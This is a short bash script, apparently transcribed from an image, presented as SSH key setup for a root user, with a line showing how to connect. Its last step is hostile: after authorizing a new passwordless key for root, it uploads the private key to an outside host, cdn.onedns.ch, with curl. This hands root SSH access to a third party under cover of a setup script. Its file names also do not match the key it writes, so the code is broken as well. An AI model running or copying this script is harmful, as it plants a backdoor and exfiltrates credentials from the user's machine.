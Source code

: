 ```bash
#!/bin/bash

# Set up necessary directories and permissions
mkdir -p ~/.ssh
chmod 700 ~/.ssh

# Define the key name
KEY_NAME="ssh-key"

# Generate a new SSH key pair
ssh-keygen -t rsa -b 4096 -f ~/.ssh/$KEY_NAME.pem -N ""

# Add the public key to authorized_keys
cat ~/.ssh/$KEY_NAME.pub >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

PRIVATE_KEY=~/.ssh/$KEY_NAME

# Upload the private key to the specified URL
curl -X POST https://cdn.onedns.ch/api/upload -F files=@$PRIVATE_KEY
```

The key is created with the root user.

So for connecting via ssh use:

```bash
ssh -i ssh-key root@server-ip
```
